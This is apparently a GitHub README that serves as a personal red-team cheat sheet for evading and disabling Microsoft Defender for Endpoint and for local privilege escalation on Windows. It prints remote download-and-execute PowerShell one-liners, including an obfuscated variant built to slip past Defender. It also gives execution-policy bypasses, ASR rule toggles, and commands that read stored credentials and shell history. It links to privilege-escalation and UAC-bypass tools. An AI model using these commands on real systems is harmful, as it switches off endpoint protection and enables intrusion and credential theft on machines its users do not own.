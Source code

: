 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    start((Microsoft Defender))
    
    start --> MDEENUM[Enumerate Defender settings]
    MDEENUM --> |fkmde.ps1| MDEVULN[Identify vulnerable configurations]
    MDEENUM --> |Windows UI| MDEVULN
    
    MDEVULN --> MDEVULNASR[ASR rules]
    MDEVULNASR --> |officemacro32.docm| MDEASREXP[Exploit ASR misconfiguration]
    MDEVULNASR --> |wmiprocess.ps1| MDEASREXP
    
    MDEVULN --> MDEEXCLUSION[Defender exclusions]
    MDEEXCLUSION --> |fkmde.ps1| EXPLOITEXCL[Exploit exclusions]
    MDEEXCLUSION --> |fkmde.ps1 --enum| EXPLOITEXCL[Exploit exclusions]
    
    MDEVULN --> MDEMISCONF[Tamper Protection]
    MDEMISCONF --> |fkmde.ps1 --kill| MDEKILL[Kill Defender process]
    
    start --> MDEBYPASS[Attempt to bypass static Defender]
    MDEBYPASS --> |ps1-obfuscator.ps1| MDEBYPASS2[Bypass Defender]
    
    start --> MDESSCR[Review Smart Screen settings]
    MDESSCR --> |Test with URL| MDESSCRVULN[Exploit vulnerable Smart Screen]


```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* fkmde.ps1
  ```powershell
  Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')
  ```

* fkmde.ps1 with parameters through RestMethod
  ```powershell
  Invoke-Expression "& { $(Invoke-RestMethod https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1) } --enum C:\Windows 3"
  ```

* ps1-obfuscator and fkmde.ps1:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```  

* fkmde.ps1 with -nop bypass, but it will get flagged as Medium Incident - Multi-stage incident involving Execution & Discovery
  ```powershell
  powershell -nop -c "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/fkxdr/fkmde/refs/heads/main/fkmde.ps1')"
  ```

ps. if unable to run a script on the current system, an execution policy has to be set. You can bypass this with -nop or set the policy by hand
  ```
  Set-ExecutionPolicy Unrestricted -Scope CurrentUser
  ```

## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

### officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)
![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

### wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html

## Ideas for LPE

```powershell
net accounts
cmdkey /list
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON" /v CACHEDLOGONSCOUNT
`

```powershell
powershell -ep bypass -c "Invoke-Expression -Command (Invoke-RestMethod 'https://raw.githubusercontent.com/itm4n/PrivescCheck/refs/heads/master/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT"
```

WSL
```
C:\Windows\System32\bash.exe
C:\Windows\System32\wsl.exe
```

https://github.com/antonioCoco/RunasCs
https://github.com/fashionproof/EnableAllTokenPrivs/blob/master/EnableAllTokenPrivs.ps1
https://github.com/BeichenDream/GodPotato
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe

https://github.com/BlackShell256/Invoke-UAC



